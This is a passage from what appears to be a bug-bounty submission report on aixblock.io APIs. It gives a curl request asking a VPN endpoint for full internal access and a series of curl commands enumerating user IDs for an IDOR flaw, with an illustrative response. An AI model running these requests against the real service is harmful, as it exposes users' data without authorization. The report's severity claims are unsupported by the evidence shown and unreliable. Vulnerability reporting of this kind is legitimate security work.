 ```bash
curl -X POST https://app.aixblock.io/api/v1/vpn/configure \
  -H "Content-Type: application/json" \
  -H "Authorization: Bearer <session_token>" \
  -d '{"vpn_config": "client", "access_level": "full", "tunnel": "internal"}'
```

#### **Submission Strengths:**
- ✅ **Critical infrastructure compromise** with RMM access
- ✅ **Real CVE analogues** with Ivanti vulnerabilities
- ✅ **Complete attack chain** from discovery to VPN access
- ✅ **High business impact** with lateral movement potential

---

## **⚠️ HIGH SEVERITY VULNERABILITIES - BUG BOUNTY VALIDATION**

### **4. IDOR - Workflow Flags (CVSS 7.5) - ✅ BOUNTY READY**

#### **Professional Triage Assessment:**
- **Vulnerability Type**: Insecure Direct Object Reference
- **Impact**: Unauthorized access to user data and privileges
- **Evidence Quality**: Sensitive data exposure (`"Sensitive data pattern: email"`)
- **OWASP Mapping**: A01:2021 - Broken Access Control
- **Exploitability**: HIGH - Data enumeration and privilege escalation

#### **IDOR Exploitation Techniques:**
```bash
# Test IDOR access patterns
curl -s "https://workflow.aixblock.io/api/v1/flags?user_id=1"
curl -s "https://workflow.aixblock.io/api/v1/flags?user_id=2"
curl -s "https://workflow.aixblock.io/api/v1/flags?user_id=999"
curl -s "https://workflow.aixblock.io/api/v1/flags?user_id=0"
curl -s "https://workflow.aixblock.io/api/v1/flags?user_id=-1"

# Expected Response:
{
  "user_id": 1,
  "email": "user1@example.com",
  "flags": ["premium", "beta_access"],
  "permissions": ["read", "write"]
}
```

#### **Submission Strengths:**
- ✅ **Clear authorization bypass** with user enumeration
- ✅ **Sensitive data exposure** including email and permissions
- ✅ **Privilege escalation potential** with premium/beta access flags
- ✅ **OWASP Top 10 mapping** with real-world impact
